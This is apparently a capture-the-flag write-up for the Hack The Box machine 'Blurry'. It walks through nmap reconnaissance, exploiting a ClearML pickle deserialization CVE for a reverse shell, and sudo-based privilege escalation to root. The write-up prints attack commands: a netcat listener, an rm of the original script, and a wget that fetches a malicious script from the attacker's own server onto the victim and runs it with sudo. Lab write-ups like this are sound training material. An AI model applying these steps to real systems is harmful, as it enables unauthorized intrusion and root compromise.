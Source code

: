 # Blurry Writeup

# Intro
Blurry is an interesting HTB machine where you will leverage the CVE 2024-24590 exploit to pop a reverse shell in order to escalate your privileges within the local system. This box uses ClearML, an open-source machine learning platform that allows its users to streamline the machine learning lifecycle. ClearML is used by many Data Engineers and Data Scientist.

Below you can find of the tools that I used to complete this challenge
1. Kali Linux: An operating system that specializes in penetration testing.
2. Nmap: An open-source tool for network exploration, along with security auditing
3. Clearml python libraries: These libraries are used to interact with the open-source ClearML that we plan to hack into. I will go more into these libraries within the writeup.

I will go into detail regarding the steps taken. We will go over the initial reconnaissance, identifying avenues of exploitation, exploitation foothold, then post exploitation.

### Initial Reconnaissance
As with any initial penetration test, we will start with a nmap scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -v -sV -sC -p- 10.10.11.19                               
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 2CBD65DC962D5BF762BCB815CBD5EFCC
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

}
```

We see that we have ports 22 and 80 open. Also, that that it is a Linux machine. To get more info, we will visit the page at blurry.htb or 10.10.11.19 within the web browser.


![appblurryhtb login](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/bf5b7bc6-a7f4-4fb8-ba1f-4367812385b5)


Here we are able to make a user name of our choosing and log into ClearML. You will be greeted with a page regarding instructions of how to use clear ML along with creating your own credentials.

To do so, we will need to pip install the clearml libraries via the instructions below.

![credentials](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/a2029720-dcc0-4de9-ae8a-5b35b59ee2af)



One thing to note, to be sure that the libraries are installed correctly, I ran a pip install command on the following:

```bash
pip install clearml
pip install clearml-init
pip install clearml-agent

}
```
For some reason the original pip install ClearML did not properly install the clearml-init and clearml-agent for me. If you run into issues, I recommend retying to pip install these.


### Avenues of Exploitation

After playing around with the website, and researching, I found that ClearML has a vulnerability (CVE2024-24590). This vulnerability can allow a user to run commands via the pickle python library.

The pickle library is used by many python users. The uses range from data transfer, saving a program state, or caching. From my experience as a data analyst/data scientist, the pickle library has many uses.

However, in this case, we will use it as an exploit. Below is the python payload that I used.

![image](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7d527fcd-1162-4f90-9172-747763d35ece)



### Exploitation Foothold

After the payload is created, we will run the following command. This will start the ClearML agent to upload our malicious code to the ClearML site.

```bash
clearml-agent daemon --queue default
```

After this is ran, we will set up a listener (I put my listener on port 4444)

```bash
nc -lvnp 4444
```

Then execute the python payload

```bash
python3 <your python file payload>.py
```

NOTE: At least in my case, it took a while for me to establish a connection. I recommend getting a cup of coffee and coming back. After, you should see that we that we have a reverse shell.

![reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/b403c153-9b87-4527-9fc2-e7547d2e6af2)


### Post Exploitation

Now we are in the system and have gained a foothold. It is good practice to see who we are, and if the user we are logged into has any root permissions. 

As seen below, we are the user jippity and they are able to run sudo privileges on the file path /user/bin/evaluate_model /models/*.pth. This means that we are able to run sudo level commands in this directory.

![root permissions](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ab4bc222-3ff4-4fb3-b4b4-60f91938307d)


Before we do that, we can explore the directory to find the user flag. You should be able to find it easily as you navigate through the user files.

![userflag](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/721c2932-9a6a-49d3-b8e3-6ba81fed24ee)


After we get the userflag, our next target is the root flag. Since we know that the user we are logged in as (jippity) has sudo privileges specified in the file path above, we can navigate to the /models directory and see what is in there.

As we will see, they have two files, demo_model.pth and evaluate_model.py. Since we know that we can run sudo privileges, we can create a malicious python script to execute and escalate our privileges. We will do this by popping a reverse shell. Below is the python script I created to do so.

![evaluate_model python reverseshell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/736ec370-0133-4e3e-85f4-0fa073cd456a)


I named this file evaluate_model.py. The reason why is because we are tricking the system into thinking that it is running the original evaluate_model.py that is within the /models directory. However, it will be running the code above instead.

After we created our second payload, we will remove the original evaluate_model.py
```bash
rm /models/evaluate_model.py
```

Once that is removed, we will set up a simple python server on our attacking machine to upload the malicious python file.

```bash
python -m http.server <port of your choosing>
```

Then we will use wget to upload the file within the victim machine in the /models directory. NOTE: In your attacking machine, you will need to be in the directory where you have your malicious python file is.

```bash
wget http://<your ip>:<your port>/<malicious.py> -O evaluate_model.py
```

After, we should see that the script was successfully uploaded. Now we will set up a netcat listener

![reverse shell root](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/3ce4a8bf-1a75-4f22-995e-22613e9743ba)



Now we will execute the script within the models directory with the following command.

```bash
sudo /usr/bin/evaluate_model /models*.pth
```
![sudo command](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/2d580148-49a5-4d90-bf4f-81d8fdfb8355)

At last, we are logged in as root.

![root reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ceb961b6-bf77-400c-b644-eec87db80749)

From here, we can explore directories as root, and we can cat the root.txt file to get the root flag.

![rooted](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7f4a980e-eb49-4cce-9106-518bd9062457)

